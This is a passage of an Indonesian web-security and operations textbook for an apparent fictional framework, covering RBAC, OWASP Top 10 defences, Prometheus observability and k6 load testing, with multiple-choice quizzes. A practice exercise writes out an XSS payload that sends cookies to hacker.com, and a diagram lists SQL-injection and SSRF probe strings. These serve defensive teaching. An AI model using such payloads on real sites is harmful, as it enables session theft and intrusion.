router.hapus("/api/admin/articles/:id", WajibIzin("article:delete"), TanganiHapusArtikel);
router.pos("/api/admin/comments/:id/reject", WajibIzin("comment:delete"), TanganiTolakKomentar);
```

---

## 34.3 Analisis Ketahanan Keamanan: RBAC vs ABAC

Pemilihan model RBAC terpadu memberikan kepastian audit kepatuhan redaksi jurnalistik secara transparan.

| Karakteristik Kontrol Akses | RBAC Klasik (Role-Based) | ABAC Kompleks (Attribute-Based) | Model Hibrida WidyaWeb |
| :--- | :--- | :--- | :--- |
| **Kompleksitas Evaluasi** | Sangat Rendah ($O(1)$ Hash Set) | Tinggi (Evaluasi logika aturan runtime) | Instan $O(1)$ + Validasi Pemilik Objek |
| **Kemudahan Audit Kepatuhan** | Sangat Mudah (Daftar peran jelas) | Sulit (Kondisi dinamis terpecah) | Transparan & Siap Audit Dewan Pers |
| **Overhead Memori** | Ringan (Hanya senarai string izin) | Berat (Engine inferensi kebijakan) | Minimal (< 50 KB Memori Cache) |

---

## 34.4 Latihan Praktik & Studi Kasus

1. **Implementasi Validasi Kepemilikan Dokumen (Ownership Guard)**: Tambahkan pemeriksaan di mana pengguna dengan peran `jurnalis` hanya diizinkan menyunting artikel jika `artikel.penulis_id == pengguna.id` (*Discretionary Access Check*).
2. **Pendelegasian Peran Sementara (Temporary Role Delegation)**: Rancang fitur di mana Pemimpin Redaksi dapat melimpahkan hak wewenang penerbitan kepada Wakil Pemimpin Redaksi selama masa cuti dengan batas kedaluwarsa otomatis 7 hari.
3. **Pencatatan Log Akses Tertolak (Audit Trail Enforcement)**: Simpan setiap percobaan akses tanpa hak ke dalam tabel `log_keamanan_redaksi` lengkap dengan alamat IP, stempel waktu, URL target, dan identitas pengguna.

---

## 34.5 Evaluasi Mandiri Pilihan Ganda

1. Apa singkatan dari prinsip RBAC dalam rekayasa keamanan perangkat lunak?
   - A. Role-Based Access Control
   - B. Real-time Binary Access Code
   - C. Redundant Backup Array Controller
   - D. Route-Based Application Configuration

2. Kode status HTTP resmi apa yang harus dikembalikan oleh peladen ketika pengguna sudah terautentikasi (login) namun tidak memiliki izin yang cukup untuk mengakses resurse tertentu?
   - A. 200 OK
   - B. 401 Unauthorized
   - C. 403 Forbidden
   - D. 404 Not Found

3. Apa keuntungan menggunakan izin atomik berbasis tindakan (seperti `article:publish`) dibanding memeriksa nama peran secara langsung (`if role == 'editor'`) di dalam kode?
   - A. Kode lebih fleksibel dan mudah dipelihara; penambahan peran baru atau perubahan wewenang cukup dikonfigurasi pada matriks izin tanpa perlu mengubah kode logika bisnis
   - B. Menghilangkan kebutuhan database
   - C. Mempercepat proses cetak koran
   - D. Mengubah format huruf menjadi tebal

4. Simbol *wildcard* apa yang umumnya digunakan pada matriks izin untuk mewakili seluruh tindakan dalam suatu cakupan (misal: seluruh aksi pada artikel)?
   - A. Tanda bintang (`*`)
   - B. Tanda tanya (`?`)
   - C. Tanda seru (`!`)
   - D. Tanda pagar (`#`)

5. Peran redaksi manakah yang menurut matriks izin di atas memiliki wewenang untuk menghapus rekod artikel berita secara permanen?
   - A. Pemimpin Redaksi
   - B. Jurnalis Penulis
   - C. Moderator Komentar
   - D. Pembaca VIP

6. Mengapa jurnalis penulis umumnya dibatasi izinnya hanya untuk `article:edit_own` dan dilarang memiliki `article:edit_all`?
   - A. Mencegah seorang jurnalis mengubah atau merusak draf investigasi milik rekan jurnalis lainnya tanpa sepengetahuan penulis aslinya
   - B. Karena laptop jurnalis berukuran kecil
   - C. Mengurangi biaya listrik kantor
   - D. Menghindari pembacaan artikel di malam hari

7. Apa tujuan dari prinsip pemisahan wewenang (*Separation of Duties*) dalam organisasi media berita digital?
   - A. Memastikan suatu keputusan kritis (seperti penerbitan berita ke publik) memerlukan persetujuan dan verifikasi dari pihak yang berbeda (editor), mencegah kesalahan fatal atau bias personal jurnalis
   - B. Membagi gaji karyawan secara merata
   - C. Memaksa jurnalis bekerja dari rumah
   - D. Menghapus arsip berita lama

8. Kapan middleware `WajibIzin("comment:delete")` dieksekusi dalam siklus permintaan HTTP?
   - A. Sebelum handler utama controller penghapusan komentar dijalankan
   - B. Setelah respons HTTP selesai dikirimkan ke peramban
   - C. Hanya saat basis data dimatikan
   - D. Saat komputer dinyalakan pertama kali

9. Apa perbedaan esensial antara kode HTTP `401 Unauthorized` dan `403 Forbidden`?
   - A. 401 berarti identitas pengguna belum diketahui (perlu login), sedangkan 403 berarti identitas sudah diketahui tetapi pengguna dilarang mengakses resurse tersebut
   - B. 401 adalah status sukses, 403 adalah status galat
   - C. 401 khusus untuk sistem operasi Linux, 403 untuk Windows
   - D. Tidak ada perbedaan sama sekali

10. Mengapa setiap kegagalan otorisasi (`403 Forbidden`) wajib dicatat ke dalam log keamanan (*Security Audit Trail*)?
    - A. Membantu tim analis keamanan mendeteksi upaya penetrasi, eskalasi hak istimewa (*Privilege Escalation*), atau akun staf yang disusupi pihak luar
    - B. Mempercepat proses kompresi berkas HTML
    - C. Mengurangi ukuran basis data
    - D. Menjamin peramban tidak menampilkan pesan galat

---

# BAB 35: MITIGASI KERENTANAN OWASP TOP 10

Bab ini membedah pertahanan keamanan siber tingkat tinggi pada portal berita NusantaraNews dalam menangkal 10 kerentanan paling kritis menurut Open Web Application Security Project (OWASP Top 10): mitigasi injeksi SQL (SQLi), Cross-Site Scripting (XSS), Server-Side Request Forgery (SSRF), Cross-Site Request Forgery (CSRF), pembatasan Content Security Policy (CSP), serta enkripsi rahasia terintegrasi.

---

## 35.1 Taksonomi Kerentanan OWASP & Vektor Serangan Portal Berita

Portal berita dengan jutaan pengunjung harian adalah sasaran empuk serangan peretasan untuk defacement politik, penyebaran hoaks, atau penambangan data pelanggan. WidyaWeb menetapkan pendekatan *Security by Design* yang secara aktif menolak vektor serangan umum pada tingkat kompilator dan middleware.

```mermaid
flowchart TD
    subgraph VektorSerangan ["Vektor Serangan Peretas"]
        Attacker["Peretas Siber / Bot Jahat"]
        Attacker -- Payload Jahat --> XSS["Reflected / Stored XSS (<script>alert(1)</script>)"]
        Attacker -- SQL Manipulasi --> SQLi["SQL Injection (' OR '1'='1)"]
        Attacker -- URL Parsing --> SSRF["Server-Side Request Forgery (http://169.254.169.254)"]
        Attacker -- Pemalsuan Klik --> CSRF["Cross-Site Request Forgery (Auto POST Transaksi)"]
    end

    subgraph PertahananWidyaWeb ["Lapisan Pertahanan Berlapis WidyaWeb"]
        XSS --> CSP["Content Security Policy (Nonce + Auto HTML Escape)"]
        SQLi --> ParamQuery["Kueri Berparameter Wajib (Pgwire Prepared Statements)"]
        SSRF --> IPValidator["Validasi IP Privat & Larangan Loopback/Link-Local"]
        CSRF --> SameSite["Cookie SameSite=Strict + Double-Submit HMAC Token"]
        
        CSP --> SistemAman["NusantaraNews Aman & Terlindungi"]
        ParamQuery --> SistemAman
        IPValidator --> SistemAman
        SameSite --> SistemAman
    end
```

---

## 35.2 Implementasi Pertahanan Berlapis di WidyaWeb

Berikut adalah modul middleware pertahanan keamanan terpadu yang memblokir serangan SSRF pada pengunduh gambar eksternal dan menetapkan tajuk keamanan peramban yang ketat:

```widya
// Modul Pertahanan Keamanan OWASP NusantaraNews
gunakan widya::web::keamanan::{TajukKeamanan, ValidatorJaringan, SanitasiTeks};
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP};
gunakan widya::jaringan::{AlamatIP};

// 1. Middleware Penguat Tajuk Keamanan HTTP (Defense in Depth)
fungsi MiddlewareTajukKeamananKetat(ctx: KonteksMiddleware, berikutnya: FungsiLanjut) -> Respon {
    tetapan nonce_acak = hasilkan_token_acak_base64(16);
    ctx.simpan_konteks("csp_nonce", nonce_acak);

    tetapan mutabel respon = berikutnya(ctx);

    // Kebijakan Keamanan Konten (Content Security Policy)
    tetapan aturan_csp = 
        "default-src 'self'; " +
        "script-src 'self' 'nonce-" + nonce_acak + "' https://cdn.nusantaranews.id; " +
        "style-src 'self' 'unsafe-inline' https://fonts.googleapis.com; " +
        "img-src 'self' https://cdn.nusantaranews.id data:; " +
        "font-src 'self' https://fonts.gstatic.com; " +
        "object-src 'none'; " +
        "base-uri 'self'; " +
        "form-action 'self'; " +
        "frame-ancestors 'none';"; // Mencegah Clickjacking

    respon.atur_tajuk("Content-Security-Policy", aturan_csp);
    respon.atur_tajuk("X-Frame-Options", "DENY");
    respon.atur_tajuk("X-Content-Type-Options", "nosniff");
    respon.atur_tajuk("Referrer-Policy", "strict-origin-when-cross-origin");
    respon.atur_tajuk("Permissions-Policy", "camera=(), microphone=(), geolocation=()");
    respon.atur_tajuk("Strict-Transport-Security", "max-age=63072000; includeSubDomains; preload");

    kembalikan respon;
}

// 2. Pertahanan Terhadap Server-Side Request Forgery (SSRF)
// Digunakan saat jurnalis menautkan gambar dari URL luar
fungsi UnduhGambarEksternalAman(url_target: Teks) -> Hasil<VektorByte, Galat> {
    tetapan url_terurai = UraiURL(url_target)?;
    tetapan daftar_ip = SelesaikanDNS(url_terurai.host())?;

    untuk ip di daftar_ip {
        // Blokir seluruh rentang IP privat (RFC 1918), loopback (127.0.0.1), dan cloud metadata (169.254.169.254)
        jika ip.apakah_privat() || ip.apakah_loopback() || ip.apakah_link_local() {
            cetak_peringatan("[SSRF] Upaya serangan terdeteksi: Akses ke alamat IP privat diblokir: " + ip.ke_teks());
            kembalikan Hasil::Gagal(Galat::baru("Alamat target dilarang oleh kebijakan keamanan server"));
        }
    }

    // Jika seluruh IP lolos validasi, lakukan pengunduhan dengan batas waktu ketat
    tetapan klien = KlienHTTP::baru().atur_timeout_ms(3000).jangan_ikuti_redirect();
    kembalikan klien.ambil_byte(url_target);
}
```

---

## 35.3 Analisis Efektivitas Mitigasi OWASP Top 10

Penerapan otomatisasi mitigasi pada framework WidyaWeb menutup permukaan serangan secara komprehensif.

| Kategori Kerentanan OWASP | Dampak Potensial pada Portal Berita | Mitigasi Bawaan di WidyaWeb |
| :--- | :--- | :--- |
| **A01: Broken Access Control** | Pembaca gratis mengakses artikel berbayar VIP | Evaluasi RBAC terpusat di lapisan router |
| **A02: Cryptographic Failures** | Kebocoran kata sandi jurnalis | Hashing Argon2id + JWT Ed25519 + TLS 1.3 murni |
| **A03: Injection (SQLi / XSS)** | Peretas menyedot database atau menyuntikkan skrip | Kueri SQL berparameter native + Auto-Escape templat |
| **A05: Security Misconfiguration** | Pemaparan halaman galat berisi rincian kode internal | Mode produksi membungkam jejak stacktrace (*Censored Traces*) |
| **A10: SSRF (Server-Side Request Forgery)** | Pencurian kredensial instans komputasi awan AWS/GCP | Validator DNS & Pemblokiran IP Link-Local / Metadata |

---

## 35.4 Latihan Praktik & Studi Kasus

1. **Uji Penetrasi Simulasi XSS**: Uji komponen masukan komentar dengan payload `<script>document.location='http://hacker.com/?c='+document.cookie</script>` dan buktikan bahwa karakter diekstrak menjadi `&lt;script&gt;` murni tanpa dieksekusi oleh peramban.
2. **Mitigasi Serangan Clickjacking**: Verifikasi bahwa penetapan tajuk `X-Frame-Options: DENY` dan `frame-ancestors 'none'` berhasil menggagalkan upaya penyematan situs NusantaraNews di dalam elemen `<iframe>` situs jahat.
3. **Penyusunan Whitelist Domain Aman untuk Fitur Embed Media**: Rancang parser konten naskah yang hanya mengizinkan penyematan frame video dari domain terverifikasi resmi (seperti `youtube.com`, `vimeo.com`, dan `spotify.com`).

---

## 35.5 Evaluasi Mandiri Pilihan Ganda

1. Kebijakan tajuk HTTP apa yang memberi instruksi kepada peramban perihal dari domain mana saja skrip, gambar, dan gaya CSS boleh dimuat dan dieksekusi?
   - A. Content-Security-Policy (CSP)
   - B. Server
   - C. Accept-Encoding
   - D. Content-Language

2. Serangan di mana peretas memanipulasi peladen backend agar melakukan permintaan HTTP internal ke jaringan lokal rahasia (seperti endpoint metadata AWS `http://169.254.169.254`) disebut:
   - A. Server-Side Request Forgery (SSRF)
   - B. Distributed Denial of Service (DDoS)
   - C. Cross-Site Scripting (XSS)
   - D. Phishing Email

3. Mengapa teknik sanitasi karakter dengan konversi entitas HTML (`<` menjadi `&lt;`, `>` menjadi `&gt;`) sangat efektif menangkal serangan *Cross-Site Scripting* (XSS)?
   - A. Peramban akan memperlakukan karakter tersebut sebagai teks biasa yang dicetak di layar dan bukan sebagai tag eksekusi kode HTML/JavaScript
   - B. Mematikan sambungan internet komputer pembaca
   - C. Mengubah warna tulisan menjadi transparan
   - D. Menghapus rekod pengguna dari tabel basis data

4. Nilai parameter `frame-ancestors 'none'` pada Content Security Policy berfungsi untuk mencegah serangan apa?
   - A. Clickjacking (Penyisipan situs web di dalam iframe transparan untuk memperdaya klik pengguna)
   - B. Kerusakan prosesor komputer
   - C. Pencurian kabel telepon
   - D. Penghapusan artikel arsip

5. Alamat IP khusus `169.254.169.254` pada arsitektur penyedia komputasi awan (AWS/GCP/Azure) umumnya digunakan untuk apa?
   - A. Instance Metadata Service (IMDS) yang menyimpan informasi sensitif termasuk kredensial token akses sementara mesin virtual
   - B. Server pencarian DNS publik Google
   - C. Alamat IP modem pengguna
   - D. Server pencatat waktu dunia

6. Tajuk keamanan apa yang memerintahkan peramban untuk hanya membuka situs web melalui koneksi HTTPS yang terenkripsi dan menolak koneksi HTTP biasa selama kurun waktu tertentu?
   - A. Strict-Transport-Security (HSTS)
   - B. Cache-Control
   - C. User-Agent
   - D. Connection

7. Mengapa pengunduh media luar (*Media Fetcher*) wajib menonaktifkan fitur pengalihan otomatis (*do not follow redirects*) saat memvalidasi alamat URL tujuan?
   - A. Mencegah penyerang melewati validasi IP awal dengan cara mengarahkan (HTTP 302 Redirect) peramban ke alamat IP privat lokal terlarang setelah pengecekan lolos
   - B. Menghemat kuota bandwidth internet
   - C. Mempercepat proses cetak halaman
   - D. Menghindari pembacaan cookie

8. Tajuk `X-Content-Type-Options: nosniff` bertindak untuk:
   - A. Melarang peramban menebak atau mengubah tipe MIME berkas secara sepihak di luar yang dideklarasikan oleh peladen (*MIME sniffing prevention*)
   - B. Menghapus file gambar yang buram
   - C. Mengubah resolusi video menjadi rendah
   - D. Mematikan fitur suara peramban

9. Apa peran dari nilai kriptografis unik `nonce` dalam direktif `script-src` pada Content Security Policy?
   - A. Memastikan hanya blok skrip yang memiliki atribut nonce yang persis cocok dengan tajuk HTTP yang diizinkan dieksekusi, sehingga skrip suntikan penyerang otomatis diblokir
   - B. Mengubah font tulisan menjadi tebal
   - C. Membatasi jumlah kata dalam artikel
   - D. Mematikan koneksi database

10. Mengapa mode produksi aplikasi web dilarang keras menampilkan rincian jejak galat kode (*Detailed Stacktrace*) kepada pengguna publik saat terjadi kesalahan sistem?
    - A. Jejak stacktrace membocorkan informasi internal berharga (jalur direktori server, versi pustaka, nama tabel basis data, dan struktur kode) yang mempermudah peretas mencari celah
    - B. Menghabiskan tinta printer
    - C. Mengurangi skor SEO Google
    - D. Menghapus cookie peramban

---

# BAB 36: OBSERVABILITAS SISTEM: METRIK PROMETHEUS & LOGGING

Bab ini menyajikan implementasi observabilitas komprehensif (*Observability & Telemetry*) pada portal berita skala industri NusantaraNews: instrumentasi metrik sistem berbasis standar OpenMetrics / Prometheus, pencatatan log terstruktur berformat JSON (*Structured Logging*), korelasi pelacakan terdistribusi (*Distributed Tracing Trace ID*), serta penyusunan dasbor pemantauan kinerja peladen web secara real-time.

---

## 36.1 Tiga Pilar Observabilitas & Standar OpenMetrics

Mengoperasikan portal berita nasional tanpa instrumen telemetri ibarat menerbangkan pesawat dalam kabut pekat tanpa radar. Tiga pilar observabilitas—**Metrik (Metrics)**, **Log (Logs)**, dan **Pelacakan (Traces)**—memberikan visibilitas holistik terhadap kesehatan klaster backend, lonjakan latensi, dan titik kemacetan (*bottlenecks*).

```mermaid
flowchart TD
    subgraph PilarObservabilitas ["Tiga Pilar Observabilitas NusantaraNews"]
        Metrics["METRIK: Prometheus Scraping (/metrics) - Laju Permintaan, Waktu Latensi HTTP, Penggunaan RAM"]
        Logs["LOG TERSTRUKTUR: JSON Lines (stdout) - Tingkat Keparahan, Pesan, Konteks, Trace ID"]
        Traces["PELACAKAN TERDISTRIBUSI: W3C TraceContext (traceparent) - Jalur Kueri Lintas Layanan"]
    end

    subgraph InfrastrukturPemantau ["Pusat Pengumpulan Telemetri"]
        Metrics --> PrometheusServer["Peladen Pengumpul Prometheus (Scraper)"]
        Logs --> VectorLogShipper["Log Collector & Aggregator (Vector / FluentBit)"]
        Traces --> JaegerCollector["Kolektor Jejak Jaeger / OpenTelemetry"]
        
        PrometheusServer --> Grafana["Dasbor Visualisasi Grafana (SLA Alerting)"]
        VectorLogShipper --> Grafana
        JaegerCollector --> Grafana
    end
```

---

## 36.2 Implementasi Kolektor Metrik & Structured Logging di WidyaWeb

Berikut adalah implementasi modul instrumentasi metrik Prometheus dan pencatatan log terstruktur berbasis konteks:

```widya
// Modul Observabilitas NusantaraNews
gunakan widya::web::observabilitas::{RegistriMetrik, Counter, Histogram, Gauge};
gunakan widya::web::http::{Permintaan, Respon, StatusHTTP};
gunakan widya::waktu::{ambil_waktu_presisi, ambil_waktu_iso8601};

rekod LogEntryJSON {
    timestamp: Teks,
    level: Teks,
    trace_id: Teks,
    metode: Teks,
    jalur: Teks,
    status: Bulat,
    latensi_ms: Desimal,
    pesan: Teks
}

// 1. Registrasi Metrik Global
struktur MetrikPortal {
    total_permintaan_http: Counter,
    durasi_latensi_http: Histogram,
    koneksi_aktif_websocket: Gauge,
    koneksi_pool_db_digunakan: Gauge
}

fungsi InisialisasiMetrikPortal() -> MetrikPortal {
    tetapan reg = RegistriMetrik::ambil_global();

    kembalikan MetrikPortal {
        total_permintaan_http: reg.buat_counter(
            "nusantara_http_requests_total",
            "Total seluruh permintaan HTTP yang masuk ke portal berita",
            ["metode", "jalur", "status"]
        ),
        durasi_latensi_http: reg.buat_histogram(
            "nusantara_http_request_duration_seconds",
            "Distribusi waktu latensi pemrosesan permintaan HTTP dalam detik",
            ["metode", "jalur"],
            [0.005, 0.01, 0.025, 0.05, 0.1, 0.25, 0.5, 1.0, 2.5] // Bucket latensi
        ),
        koneksi_aktif_websocket: reg.buat_gauge(
            "nusantara_websocket_active_connections",
            "Jumlah koneksi real-time WebSocket yang sedang aktif"
        ),
        koneksi_pool_db_digunakan: reg.buat_gauge(
            "nusantara_database_pool_active_connections",
            "Jumlah koneksi basis data yang sedang sibuk dipinjam"
        )
    };
}

// 2. Middleware Telemetri & Pencatatan Log JSON
fungsi MiddlewareObservabilitas(metrik: MetrikPortal) -> Middleware {
    kembalikan fungsi(ctx: KonteksMiddleware, berikutnya: FungsiLanjut) -> Respon {
        tetapan waktu_mulai = ambil_waktu_presisi();
        tetapan trace_id = ctx.tajuk("X-Trace-Id").nilai_atau(hasilkan_trace_id_acak());
        ctx.simpan_konteks("trace_id", trace_id);

        // Eksekusi rute berikutnya
        tetapan respon = berikutnya(ctx);

        tetapan durasi_detik = ambil_waktu_presisi() - waktu_mulai;
        tetapan durasi_ms = durasi_detik * 1000.0;
        tetapan status_str = respon.kode_status().ke_teks();
        tetapan metode = ctx.permintaan().metode().ke_teks();
        tetapan rute_pola = ctx.rute_pola(); // Misal: "/berita/:id"

        // Catat Metrik Prometheus
        metrik.total_permintaan_http.tambah_label([metode, rute_pola, status_str]).tambah(1);
        metrik.durasi_latensi_http.tambah_label([metode, rute_pola]).amati(durasi_detik);

        // Terbitkan Log Terstruktur JSON ke stdout
        tetapan entri_log = LogEntryJSON {
            timestamp: ambil_waktu_iso8601(),
            level: jika respon.kode_status() >= 500 { "ERROR" } jika_tidak { "INFO" },
            trace_id: trace_id,
            metode: metode,
            jalur: ctx.permintaan().jalur(),
            status: respon.kode_status(),
            latensi_ms: durasi_ms.bulatkan(2),
            pesan: "Permintaan HTTP selesai diproses"
        };

        cetak_ke_stdout(entri_log.ke_json_satu_baris());
        respon.atur_tajuk("X-Trace-Id", trace_id);

        kembalikan respon;
    };
}
```

---

## 36.3 Analisis Metrik Standar Google Golden Signals

Pengawasan kesehatan portal berita NusantaraNews difokuskan pada *Four Golden Signals* dari Google SRE Handbook.

| Sinyal Emas (Golden Signal) | Metrik Pengukuran di WidyaWeb | Ambang Peringatan Bahaya (Alerting Threshold) |
| :--- | :--- | :--- |
| **Latensi (Latency)** | `nusantara_http_request_duration_seconds` (Persentil 99 / p99) | p99 $> 300\text{ ms}$ selama 3 menit berturut-turut |
| **Lalu Lintas (Traffic)** | Laju perubahan `rate(nusantara_http_requests_total[1m])` | Lonjakan tak wajar $> 300\%$ (Potensi DDoS) |
| **Tingkat Galat (Errors)** | Rasio status 5xx: `sum(rate(status=~"5..")) / sum(rate(all))` | Rasio galat internal $> 1.0\%$ dari seluruh trafik |
| **Saturasi (Saturation)** | `nusantara_database_pool_active_connections / max_pool` | Utilisasi kolam koneksi database $> 85\%$ |

---

## 36.4 Latihan Praktik & Studi Kasus

1. **Penyusunan Endpoint Ekspor Metrik (`GET /metrics`)**: Buat rute khusus yang menyajikan seluruh metrik aktif dalam format baris teks baku OpenMetrics untuk ditarik secara periodik oleh peladen Prometheus.
2. **Kustomisasi Pelacakan Konteks Database (DB Query Tracing)**: Tambahkan penyematan `trace_id` pada setiap kueri SQL dalam bentuk komentar metadata (misal: `/* trace_id=89ab... */ SELECT ...`) agar kueri lambat dapat dicocokkan dengan log permintaan pengguna di log PostgreSQL WidyaBase.
3. **Penyusunan Aturan Peringatan PagerDuty (Alerting Rules)**: Tulis konfigurasi Prometheus Alertmanager yang secara otomatis mengirimkan peringatan darurat ke tim SRE jika tingkat galat 500 melampaui ambang 2% selama 2 menit.

---

## 36.5 Evaluasi Mandiri Pilihan Ganda

1. Tiga pilar utama dalam disiplin observabilitas sistem modern adalah:
   - A. Metrik, Log Terstruktur, dan Pelacakan Terdistribusi (Traces)
   - B. CPU, RAM, dan Hard Disk
   - C. HTML, CSS, dan JavaScript
   - D. Mouse, Keyboard, dan Monitor

2. Endpoint standar apa yang umumnya disediakan oleh aplikasi web untuk ditarik (*scraped*) datanya oleh peladen Prometheus?
   - A. `/metrics`
   - B. `/login`
   - C. `/admin`
   - D. `/download`

3. Tipe metrik Prometheus apa yang nilainya hanya bisa bertambah naik secara monotonik (seperti total hitungan permintaan HTTP) dan di-reset ke nol saat aplikasi restart?
   - A. Counter
   - B. Gauge
   - C. Histogram
   - D. Summary

4. Tipe metrik apa yang nilainya dapat naik dan turun sewaktu-waktu (seperti jumlah koneksi WebSocket yang sedang aktif atau penggunaan memori)?
   - A. Gauge
   - B. Counter
   - C. Untyped
   - D. Boolean

5. Mengapa pencatatan log disarankan menggunakan format JSON terstruktur (*Structured Logging*) satu baris dibanding format teks bebas tak beraturan?
   - A. Mempermudah mesin pengumpul log (seperti Vector, FluentBit, Elastic) menguraikan, memfilter, mengindeks, dan mengkueri atribut log secara otomatis
   - B. Menghilangkan kebutuhan ruang penyimpanan disk
   - C. Menghapus teks peringatan galat
   - D. Mengharuskan pengguna mengunduh berkas log

6. Apa peran dari *Trace ID* (Pengenal Jejak) dalam sistem terdistribusi mikro-layanan?
   - A. Pengenal unik yang diteruskan lintas jaringan dari permintaan peramban ke gateway hingga ke basis data, memungkinkan penelusuran seluruh siklus perjalanan satu permintaan secara utuh
   - B. Menghitung jumlah klik mouse pengguna
   - C. Mengubah warna ikon peramban
   - D. Membatasi ukuran layar monitor

7. Metrik persentil 99 (p99 latency) merepresentasikan apa dalam analisis kinerja sistem?
   - A. Waktu latensi di mana 99% pengguna merasakan kecepatan yang lebih baik atau sama dengan nilai tersebut, sementara 1% pengguna mengalami latensi terburuk
   - B. Rata-rata aritmatika seluruh pengguna
   - C. Persentase baterai ponsel pengguna
   - D. Jumlah pengunjung yang berusia di bawah 99 tahun

8. Mengapa pelabelan metrik Prometheus dilarang keras menggunakan nilai dengan kardinalitas tinggi (*High Cardinality* seperti User ID atau Alamat IP)?
   - A. Dapat menyebabkan ledakan kombinasi metrik (*Metric Explosion*) yang memakan habis memori RAM dan ruang penyimpanan peladen Prometheus
   - B. Mematikan sistem pendingin server
   - C. Melanggar undang-undang hak cipta
   - D. Menghapus akun admin

9. Empat Sinyal Emas (*Four Golden Signals*) yang wajib dipantau menurut panduan resmi Google Site Reliability Engineering (SRE) adalah:
   - A. Latensi, Lalu Lintas, Tingkat Galat, dan Saturasi
   - B. Biaya, Waktu, Lokasi, dan Kualitas
   - C. Keyboard, Mouse, Layar, dan Speaker
   - D. Baterai, Sinyal, Kuota, dan Pulsa

10. Apa keuntungan menggunakan *Histogram* dibanding sekadar menghitung rata-rata matematika untuk pengukuran waktu latensi HTTP?
    - A. Nilai rata-rata sering menyembunyikan masalah kinerja parah (*masking outliers*), sedangkan histogram memetakan distribusi sebaran waktu ke dalam berbagai ember batas (*buckets*) secara akurat
    - B. Histogram berukuran lebih kecil dari 1 byte
    - C. Histogram tidak memerlukan prosesor komputer
    - D. Menghindari pembuatan grafik di dasbor

---

# BAB 37: PENGUJIAN OTOMATIS END-TO-END & UJI BEBAN K6

Bab ini memandu Anda dalam merekayasa penjaminan mutu perangkat lunak (*Quality Assurance*) untuk portal berita NusantaraNews: pengujian otomatis lintas alur fungsional (*End-to-End Testing*), pengujian integrasi berbasis kontainer uji (*Testcontainers*), serta simulasi uji beban ekstrem (*Stress & Load Testing*) menggunakan Grafana K6 hingga 50.000 pengguna virtual konkuren (*VUs*).

---

## 37.1 Piramida Pengujian & Rekayasa Uji Beban

Menjamin keandalan portal berita saat breaking news terjadi menuntut pengujian menyeluruh pada seluruh lapisan piramida pengujian. Pengujian fungsional memvalidasi ketepatan alur editorial, sedangkan pengujian beban K6 mengevaluasi degradasi latensi di bawah tekanan lalu lintas masif.

```mermaid
flowchart TD
    subgraph PiramidaPengujian ["Piramida Pengujian NusantaraNews"]
        E2E["Pengujian End-to-End (E2E): Simulasi Browser Utuh (Penerbitan Berita -> Pembacaan)"]
        Integ["Pengujian Integrasi: Uji Endpoint API + WidyaBase SQL Nyata"]
        Unit["Pengujian Unit: Logika Bisnis, Parser JSON, Sanitasi Teks, Matriks RBAC"]
        E2E --> Integ --> Unit
    end

    subgraph UjiBebanK6 ["Skenario Pengujian Beban K6 (50.000 VUs)"]
        RampUp["Tahap 1: Ramp-up 0 ke 10.000 VU (2 Menit)"]
        PeakLoad["Tahap 2: Beban Puncak 50.000 VU (5 Menit)"]
        RampDown["Tahap 3: Ramp-down Kembali ke 0 VU (1 Menit)"]
        RampUp --> PeakLoad --> RampDown
    end
```

---

## 37.2 Implementasi Skenario Uji Beban K6 & Pengujian Integrasi

Berikut adalah skrip pengujian beban K6 dalam bahasa JavaScript modern yang menguji ketahanan halaman muka dan API pencarian artikel berita:

```javascript
// load-test-nusantara.js - Pengujian Kinerja Ekstrem Grafana K6
import http from 'k6/http';
import { check, sleep } from 'k6';
import { Rate, Trend } from 'k6/metrics';

// Metrik Kustom
const rasioKegagalan = new Rate('tingkat_kegagalan_http');
const latensiArtikel = new Trend('latensi_halaman_artikel');

export const options = {
  stages: [
    { duration: '1m', target: 5000 },   // Pemanasan ke 5.000 pengguna
    { duration: '3m', target: 25000 },  // Lonjakan ke 25.000 pengguna
    { duration: '5m', target: 50000 },  // Puncak berita breaking 50.000 pengguna
    { duration: '2m', target: 0 },      // Penurunan kembali ke 0
  ],
  thresholds: {
    'http_req_duration': ['p(95)<250', 'p(99)<500'], // 95% permintaan harus di bawah 250ms
    'tingkat_kegagalan_http': ['rate<0.01'],          // Tingkat kegagalan harus di bawah 1%
  },
};

const BASE_URL = 'https://nusantaranews.id';

export default function () {
  // 1. Kunjungi Halaman Beranda (SSR HTML)
  const responBeranda = http.get(`${BASE_URL}/`);
  const berandaSukses = check(responBeranda, {
    'Beranda status 200': (r) => r.status === 200,
    'Memuat token verifikasi': (r) => r.body.includes('NusantaraNews'),
  });
  rasioKegagalan.add(!berandaSukses);

  sleep(1);

  // 2. Akses Detail Berita Populer (Uji Caching & WidyaBase Read)
  const responArtikel = http.get(`${BASE_URL}/berita/kebijakan-ekonomi-nasional-2026`);
  latensiArtikel.add(responArtikel.timings.duration);
  
  const artikelSukses = check(responArtikel, {
    'Artikel status 200': (r) => r.status === 200,
    'Header Cache Hit': (r) => r.headers['X-Gateway-Nusantara'] !== undefined,
  });
  rasioKegagalan.add(!artikelSukses);

  sleep(2);

  // 3. Eksekusi Pencarian Kata Kunci FTS BM25
  const responCari = http.get(`${BASE_URL}/api/v1/search?q=ekonomi`);
  check(responCari, {
    'Search API status 200': (r) => r.status === 200,
    'Hasil pencarian valid': (r) => JSON.parse(r.body).total_ditemukan > 0,
  });

  sleep(1);
}
```

Pengujian integrasi otomatis di lingkungan pengembang menggunakan Widya-Lang:

```widya
// Modul Pengujian Otomatis NusantaraNews
gunakan widya::pengujian::{uji, asersi_sama_dengan, asersi_benar};
gunakan widya::web::klien_uji::{KlienUjiWeb};

#[uji]
fungsi uji_alur_lengkap_penerbitan_artikel() {
    tetapan klien = KlienUjiWeb::baru();

    // 1. Login sebagai Editor
    tetapan respon_login = klien.pos("/api/auth/login", {
        "email": "editor@nusantaranews.id",
        "kata_sandi": "RahasiaNegara2026!"
    });
    asersi_sama_dengan(respon_login.kode_status(), 200);

    // 2. Terbitkan Artikel Baru
    tetapan respon_terbit = klien.pos("/api/admin/articles", {
        "judul": "Uji Kesiapan Infrastruktur Digital Nusantara",
        "konten": "Naskah artikel investigasi mendalam mengenai teknologi...",
        "kategori_id": 1,
        "status": "published"
    });
    asersi_sama_dengan(respon_terbit.kode_status(), 201);
    tetapan id_artikel = respon_terbit.badan_json().ambil("id");

    // 3. Verifikasi Artikel Dapat Diakses Publik Tanpa Login
    klien.hapus_sesi();
    tetapan respon_baca = klien.ambil("/berita/" + id_artikel);
    asersi_sama_dengan(respon_baca.kode_status(), 200);
    asersi_benar(respon_baca.badan_teks().memuat("Infrastruktur Digital"));
}
```

---

